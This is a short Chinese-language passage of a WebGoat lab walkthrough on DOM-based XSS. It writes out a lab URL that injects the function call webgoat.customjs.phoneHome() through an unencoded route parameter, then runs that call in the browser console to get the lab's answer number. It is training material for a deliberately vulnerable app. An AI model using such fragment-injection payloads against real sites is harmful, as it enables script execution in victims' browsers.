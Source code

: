   输入：

   > start.mvc#test/

   ![31-a7route通过](31-a7route通过.png)

4. 使用刚刚找到的路由，看看是否可以使用它反映路由中的参数而不进行编码的事实来执行 WebGoat 中的内部函数。您要执行的功能是……

   webgoat.customjs.phoneHome()

   利用刚刚的route，更改网址：

   > http://623229a953e34fe9840ba729f4b8f7a8.app.mituan.zone:8080/WebGoat/start.mvc#test/webgoat.customjs.phoneHome()

   得到回显：

   ![32-a7函数回显](32-a7函数回显.png)

   再f12，输入并执行：

   > webgoat.customjs.phoneHome()

   得到随机数：

   > 1110681585

   ![33-a7函数回显随机数](33-a7函数回显随机数.png)
